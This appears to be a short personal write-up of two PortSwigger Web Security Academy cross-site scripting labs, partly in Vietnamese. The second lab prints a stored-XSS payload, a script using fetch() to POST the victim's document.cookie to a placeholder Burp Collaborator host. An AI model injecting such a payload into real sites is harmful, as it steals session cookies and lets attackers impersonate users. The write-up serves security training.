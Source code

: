 # [Portswigger] Cross-site scripting
***

## 1. Lab: Reflected XSS into HTML context with nothing encoded
* Content:
```
This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the alert function.
```
* Exploit:

<img width="379" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/40b02cef-ed0e-4437-a80a-534d4b0a8ab2">

<img width="227" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/7304d580-c21d-4aaa-b367-1a49c6b8abd6">

***

## 2. Lab: Exploiting cross-site scripting to steal cookies

* Content:
```
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the cookie.
```
* Exploit:

Post comment như sau:

```javascript
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

<img width="374" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/1a29c93e-410b-4981-ad59-ceaddca4a6b8">

